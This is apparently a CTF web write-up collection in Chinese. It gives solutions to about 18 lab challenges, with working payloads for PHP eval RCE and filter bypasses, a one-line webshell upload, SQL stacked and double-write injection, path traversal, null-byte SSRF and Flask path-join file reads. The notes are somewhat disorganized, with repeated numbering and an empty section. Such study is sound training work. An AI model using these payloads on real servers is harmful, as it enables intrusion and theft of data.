


1. [SWPUCTF 2021 新生赛]hardrce  
 由源码可知过滤了许多符号，且要通过eval（）函数执行命令，因此要用get传入wllm参数，要使用URL编码取反绕过进行rce，跑脚本时注意~，传参时也要有~，还要注意分号
?wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98);这里要注意wllm变量之前不能有空格，就是直接?wllm=system()
2.[SWPUCTF 2021 新生赛]easyupload1.0 
想上传php文件发现不行，然后使用一句话木马以jpg的格式上传，<?php @eval('phpinfo();'); ?> ，然后burp抓包发送到repeater，修改文件后缀为php，
重发得到文件地址，打开地址得到图片，Ctrl+f搜索flag得到flag
3.[LitCTF 2023]作业管理系统 YUANQI的WriteUp
查看源码得到账户密码后登录，可以直接上传含一句话木马的一个php文件到该系统目录上，然后访问1.php，得到一个空白页面，直接使用post传参，a=system('cat /flag');得到flag，或者也可以在该系统上创建一个含一句话木马的文件，然后访问传参也可得到flag
4.[鹤城杯 2021]EasyP

```plain
if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}
 
if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}
 
if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
```
前面的那段是来迷惑人的，因为不知道secret的值，知道hightlight_file读取文件，因此要先让(basename($_SERVER['PHP_SELF'])的值为utils.php，先绕过第一个if，使用/index.php/utils.php/%88，%88是超过了ascii字符的无效字符，进行URL编码后是乱码
在URL编码中造成乱码的可以绕过正则匹配，也可以用%a0，即null空字符绕过，然后要绕过show_source,使用show.source或者show[source可以绕过，最终完整pyload为/index.php/utils.php/%88?show[source=1
​

```plain
a='\x59\x55\x64\x6b\x61\x47\x4a\x58\x56\x6a\x64\x61\x62\x46\x5a\x31\x59\x6d\x35\x73\x53\x31\x6c\x59\x57\x6d\x68\x6a\x4d\x6b\x35\x35\x59\x56\x68\x43\x4d\x45\x70\x72\x57\x6a\x46\x69\x62\x54\x55\x31\x56\x46\x52\x43\x4d\x46\x6c\x56\x59\x7a\x42\x69\x56\x31\x59\x35'
```
4.[SUCTF 2019]EasySQL
首先尝试基本注入语句，联合注入，报错注入，时间注入，最后到堆叠注入时发现可以，先使用1;show databases#获得库名，然后用1;show tables#获得表名Flag,想要使用from获得flag发现不行，可以使用burpsuite的爆破获得关键字过滤，from被过滤，使用sql_mode 中的 PIPES_AS_CONCAT 函数，
**PIPES_AS_CONCAT：将 || 或运算符 转换为 连接字符，即将||前后拼接到一起。**
**select 1 || flag from Flag****的意思将变成 先查询1 再查询 flag，而不是查询1flag,只是查询的结果会拼接到一起，查询语句 1;set sql_mode=PIPES_AS_CONCAT;select 1，**
或者使用非预期漏洞，输入*,1 这就由于后端代码是select post['query'] || flag from Flag，就相当于构造了 select *，1 || flag from Flag  ，直接输出Flag
5.[羊城杯 2020]Blackcat


 hash_hmac()函数第二个参数为数组的时候，返回结果为NULL  

```php
if(empty($_POST['Black-Cat-Sheriff']) || empty($_POST['One-ear'])){
    die('Ë­£¡¾¹¸Ò²ÈÎÒÒ»Ö»¶úµÄβ°Í£¡');
}

$clandestine = getenv("clandestine");

if(isset($_POST['White-cat-monitor']))
    $clandestine = hash_hmac('sha256', $_POST['White-cat-monitor'], $clandestine);


$hh = hash_hmac('sha256', $_POST['One-ear'], $clandestine);

if($hh !== $_POST['Black-Cat-Sheriff']){
    die('ÓÐÒâÃé×¼£¬ÎÞÒâ»÷·¢£¬ÄãµÄÃÎÏë¾ÍÊÇÄãÒªÃé×¼µÄÄ¿±ê¡£ÏàÐÅ×Ô¼º£¬Äã¾ÍÊÇÄÇ¿ÅÉäÖаÐÐĵÄ×Óµ¯¡£');
}

echo exec("nc".$_POST['One-ear']);

```
因此可以通过传入一个数组绕过第一个hash函数加密，第二个hash函数加密可以通过本地脚本运行实现，把One-ear的值赋值为；cat flag.php 在用hash加密使其与传入的Black-Cat-Sheriff值相等就可以输出值
6.正则一个题

```plain
 <?php
//一片森林里分出两条路————而我选择了人迹更少的一条，从此决定了我一生的道路。
Include('check.php');
highlight_file(__FILE__);
error_reporting(0);

$A=$_GET['easy'];
$B=$_GET['hard'];

if (isset($A)){
eval('e'.'x'.'i'.'t'.'(); ?>'.$A.'<?php ;');//这条路没有任何过滤诶，是不是好走一些
}
if (isset($B)){
check($B);//要被正则了，嘤嘤嘤
eval("#cmd".$B."inject");//这条路怎么还要禁我东西啊，真下头
}
print(exec('cat /f*'));inject#输出 这里的#cmd未知
pyload:hard=?><?php print(eval('cat /f*'));?>
```
7.js游戏里面，可以在控制台对控制分数的变量进行赋值以达到所需的分数，或者直接在js文件里面找到flag
8。 [鹏城杯 2022]简单包含  
直接想到伪协议，但是发现使用flag=php://filter/convert.base64-encode/resource=flag.php发现不行，报错，然后去源码看下，读取index.php的内容发现post输入长度要大于800位或者不含flag字符能调用include函数，然后就是使用a=aaa（800个a）&flag=php://filter/convert.base64-encode/resource=flag.php绕过限制，得到flag
9.

```plain
居然都不输入参数，可恶!!!!!!!!!

<?php
## 放弃把，小伙子，你真的不会RCE,何必在此纠结呢？？？？？？？？？？？？
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if (!preg_match('/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i',$code)){
        echo '看看你输入的参数！！！不叫样子！！';echo '<br>';
        eval($code);
    }
    else{
        die("你想干什么？？？？？？？？？");
    }
}
else{
    echo "居然都不输入参数，可恶!!!!!!!!!";
    show_source(__FILE__);
}

```
system和passthru都被过滤，使用print或者printf输出结果，里面则使用反引号` `等价于命令执行函数，ls被过滤，可以使用l\s绕过，然后就是输入参数，cat也可以使用c\at绕过，或者使用nl输出,,完整pyload：

```plain
?code=print(`l\s /`);
?code=print(`nl /fffffffffflagafag;
```
**10. [CISCN 2019初赛]Love Math  **
这题其实算不上特别复杂，就是比较麻烦，首先要拿flag就要输入system('cat /flag'),然后这里空格，换行，制表符等等都被过滤，还有system函数也不在白名单里面，无法使用，所以只能用其他函数，看了wp才知道这几个函数的用处，这里还学了一个php的变量变量特性，就是php可以把函数名赋值给一个变量，然后可以直接通过这个变量来调用函数，比如$a='system',$a('cat /flag')就是调用system('cat /flag')

```python
base_convert(37907361743, 10, 36);		=>		hex2bin   十进制转36进制
dechex(1598506324);						=>		5f474554  十进制转十六进制
hex2bin('5f474554');					=>		_GET  十六进制转ascii字符

十进制数37907361743转换成三十六进制之后正好就是hex2bin
($$pi){pi}(($$pi){abs}) 				=> 		($_GET){pi}($_GET){abs}  //{}可以代替[]

综上：
$pi = base_convert(37907361743, 10, 36);
$pi = $pi(dechex(1598506324));
echo $pi;	// _GET，即此时的$pi就是_GET
    
?c=$_GET[a]($_GET[b])&a=system&b=cat /flag
需要的pyload
完整pyload：?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat%20/flag

```
这里要构造_GET,要hex2bin('5f474554');，因为hex2bin不在白名单里面，那么通过base这个函数转换出hex2bin，因为这个函数是十六进制转ascii字符，所以要得到_GET的十六进制字符，然后这里就要用到dechex函数转成十六进制，然后总的就得到_GET这个东西，然后后面就依次写入就可以得到flag，
11**. [UUCTF 2022 新生赛]ezrce  **
一个命令执行的无回显rce，这里有几个知识点，第一个是>可以直接创建一个文件，第二是执行*命令会把当前文件夹下的第一个文件当成命令执行，其他文件当成参数**，比如创建一个文件>nl，那么这时候执行*

- /*>1等价于nl /*>1,这个也就是这题的解，因为它大于六个字符就会删除目录，所以只能使用这种来读flag**12. [GKCTF 2020]cve版签到  **
首先看请求头里发现hint：flag in localhost，然后点击ctfhub这个地址，发现跳转到了一个新网页，这里发现出现了?ufl=.....,然后复制这个内容去问gpt，发现是get_headers()函数，**get_headers() 是PHP系统级函数，他返回一个包含有服务器响应一个 HTTP 请求所发送的标头的数组。 如果失败则返回 FALSE 并发出一条 E_WARNING 级别的错误信息(可用来判断远程文件是否存在)，然后因为是cve，找到对应的cve漏洞，**我们要去访问本地，得到响应，但是这里要求结尾是ctfhub.com，所以根据这个漏洞CVE-2020-7066，url包含\0也就是%00空字节，后面的就会被截断，这时就能让服务器请求要访问的地址，输入?url=http://127.0.0.1%00www.ctfhub.com它说要以123结尾，就输入?url=http://127.0.0.123%00www.ctfhub.com得到flag
**13. [HCTF 2018]Warmup  **
必须在白名单里面的才能通过，in_array就是判断必须是白名单里面的才能通过，也就是值必须含hint.php/source.php，然后在末尾拼接一个？，截取？前面的字符判断是否在白名单里面，那么可以手动添加一个？hint.php?,strpos函数从0开始，找到？刚好是第8个，然后截取前8个字符，从第一个字符开始8个刚好是hint.php，可以通过白名单，然后后面就使用相对路径读取flag，flag在ffffllllaaaagggg，就一层一层尝试就可以得到flag
完整pyload：?file=hint.php?/../../../../ffffllllaaaagggg

```python
 <?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {
                return true;
            }

            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br>";
    }  
?> NSSCTF{3125a8fe-47a8-413a-85ea-cbfbccf0f2b6} 
```
**14. [NISACTF 2022]babyupload  **
开始以为是普通文件上传，结果发现怎么传都不行，然后看源码发现了source，得到上传的源码，这里是flask结合起来用

```python
@app.route('/upload', methods=['POST'])                     # 定义一个处理文件上传的 POST 路由
def upload():                                               # 上传处理函数
    if 'file' not in request.files:                         # 如果请求中没有包含文件字段
        return redirect('/')                                # 重定向到首页
    file = request.files['file']                            # 获取上传的文件对象
    if "." in file.filename:                                # 如果文件名包含"."（即有扩展名）
        return "Bad filename!", 403                         # 返回 403，拒绝上传

    conn = db()                                             # 连接数据库
    cur = conn.cursor()                                     # 获取游标
    uid = uuid.uuid4().hex                                  # 生成文件的唯一 ID（UUID 的 32 位十六进制字符串）

    try:
        cur.execute(                                        # 向数据库表 files 插入一条记录
            "insert into files (id, path) values (?, ?)", 
            (uid, file.filename,)
        )
    except sqlite3.IntegrityError:                          # 如果 ID 冲突（理论上不太可能）
        return "Duplicate file"                            # 返回文件重复提示
    conn.commit()                                           # 提交事务

    file.save('uploads/' + file.filename)                  # 将文件保存到 uploads 目录下，文件名为原始文件名
    return redirect('/file/' + uid)                        # 上传成功后重定向到 /file/<uuid> 进行访问


@app.route('/file/<id>')                                   # 定义一个路由，通过唯一 ID 访问文件内容
def file(id):                                              # 访问文件的函数
    conn = db()                                            # 连接数据库
    cur = conn.cursor()                                    # 获取游标
    cur.execute("select path from files where id=?", (id,)) # 根据 ID 查询文件名
    res = cur.fetchone()                                   # 获取查询结果
    if res is None:                                        # 如果没有找到文件
        return "File not found", 404                       # 返回 404

    with open(os.path.join("uploads/", res[0]), "r") as f: # 在 uploads 目录中打开查询到的文件
        return f.read()                                    # 读取文件内容并返回给用户

```
这里是把上传的文件放在uploads目录下，然后生成一个唯一的uuid，比如dsadjlasd45这种的唯一标识符，然后返回这个uuid，在通过flask路由去访问这个文件，这里就是用到os.path.join的一个绝对路径拼接漏洞
**os.path.join(path,*paths)函数用于将多个文件路径连接成一个组合的路径。第一个函数通常包含了基础路径，而之后的每个参数被当作组件拼接到基础路径之后**
**然而，这个函数有一个少有人知的特性，如果拼接的某个路径以 / 开头，那么包括基础路径在内的所有前缀路径都将被删除，该路径将视为绝对路径.**
**即上传文件名为/flag，返回文件的uuid（标识文件的唯一识别码，以确保文件在系统中具有唯一性），在与uploads进行拼接时，uploads/将被删除，读取到的就是根目录下的flag文件，**所以当上传的文件名是/flag时，他在使用os进行拼接时，前面拼接的uploads会被删掉，把这个路径视为绝对路径，从而可以读取到根目录下的flag文件，而不是上传后的/uploads/flag文件
15.SWPUCTF 2022 新生赛]webdog
这里学到一种新的rce方式，就是进行再一次的拼接去flag

```python

<?php
error_reporting(0);

highlight_file(__FILE__);

if (isset($_GET['get'])){
    $get=$_GET['get'];
    if(!strstr($get," ")){
        $get = str_ireplace("flag", " ", $get);
        
        if (strlen($get)>18){
            die("This is too long.");
            }
            else{
                eval($get);
          } 
    }else {
        die("nonono"); 
    }

}
?> NSSCTF{b83b037f-d233-4d35-a3c7-286b6a4d8245} 
pyload：?get=eval($_GET['x']);&x=system('cat /flag');
或者可以直接使用?get=system('cat%09/*');  刚好18个可以满足不被过滤
```
16.强网杯 2019随便注
方法一：
这是一道很有意思的题目，首先输入select就可以发现很多都被过滤掉return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);，那么就不能使用联合注入，这里采用堆叠注入，直接1';show databases#,输出库名，一个个尝试发现supersqli这个库里面的内容，然后读表words和 1919810931114514  ，发现flag在数字表里面，但是select被过滤，所以无法直接查询，这里注意到他会默认显示一个表字段的值，而数字表只有一个字段，所以显然默认显示的是words表，这里还注意到words表的字段一个是id，一个是data，data的数据类型正好和flag的类型一致，那么就可以把words表名改成其他名，然后把数字表名改成words，然后这里要注意一个点，在mysql后端查询时，默认查询很大可能是select id,data from words，所以这里的名字要匹配，要在改名后的words表里在添加一个字段id，然后把flag字段名改成data，然后就可以直接默认查询得到结果，但是不知道为什么我的无法显示出来？
方法二：


方法三：
可以使用handler替代select进行查询，使用`1'; handler `1919810931114514`open as`a`; handler `a` read next;#`进行查询，但是这个也查不出结果，不知道为啥？

，只有第二个编码绕过得到了结果
17.[RoarCTF 2019]Easy Calc
首先打开发现是个计算器，然后查看源码，发现一段代码，看到calc.php文件，查看内容，发现是对num参数进行waf过滤，这里用到一个特性，在num参数前加空格，就可以绕过waf的过滤，但是php可以正常识别参数的内容，然后这里可以查看phpinfo,发现很多函数包括system都无法使用，这里就用到scandir这个函数，又因为/也被过滤，所以使用ASCII码绕过，然后知道了flaag这个文件，然后使用file_get_contents()这个函数读取文件内容，得到flag
 “点号”是一个字符串连接符，即并置运算符，用来拼接字符串。  

```python
? num=1;var_dump(scandir(chr(47)))
? num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

```
17. [极客大挑战 2019]BabySQL
一道很经典的双写绕过的题目，这里看到这种直接先尝试万能密码，发现不行，而且从报错信息也发现or和by被过滤掉了，然后这里可以使用双写的or和by去查询字段数，也可以直接使用联合查询的union select 1,2,3一步步去查询，然后这个发现直接报错，这里猜测union和select也被过滤了，采用双写绕过，终于回显了，然后就去查数据库名，这里可以使用

```python
#使用infoorrmation_schema.schemata直接爆出数据库名称
1' ununionion seselectlect 1,2,group_concat(schema_name) frfromom infoorrmation_schema.schemata#

#爆表名
uunionnion sselectelect 1,2,group_concat(table_name)ffromrom infoorrmation_schema.tables wwherehere table_schema=database()#

#爆字段名
uunionnion sselectelect 1,2,group_concat(column_name)ffromrom infoorrmation_schema.columns wwherehere table_name='b4bsql'


#爆字段值
uunionnion sselectelect 1,2,group_concat(passwoorrd)ffromrom b4bsql
```
查出当前服务器的所有数据库名，也可以普通联合注入查询，这里尝试也就会发现from和or被过滤，还是双写绕过，然后去爆出表名，字段名，字段值，这里password的or也使用双写绕过过滤，然后成功拿到flag，然后这题除了这个babsql库还有其他的库，一个CTF库里的flag表也可以拿到flag
18.[RoarCTF 2019]Easy Java
一个web-inf泄露的问题，简单讲就是一个web应用通常配置多个web服务器，而nginx的配置静态文件时因为某种原因导致可通 过Nginx访问到Tomcat的WEB-INF目录  ，题目的主要入手点就是filename参数，通过这个参数可以找到 WEB-INF/web.xml  文件，然后通过这个文件去找到flag对应的文件的路径，然后在找到`/WEB-INF/classes/com/wm/ctf/FlagController.class`或者说下载这个文件，然后得到他的编译文件，后缀名是.class，然后使用java反编译网站反编译后得到flag，或者直接找到flag对应的base64编码去解码得到flag，
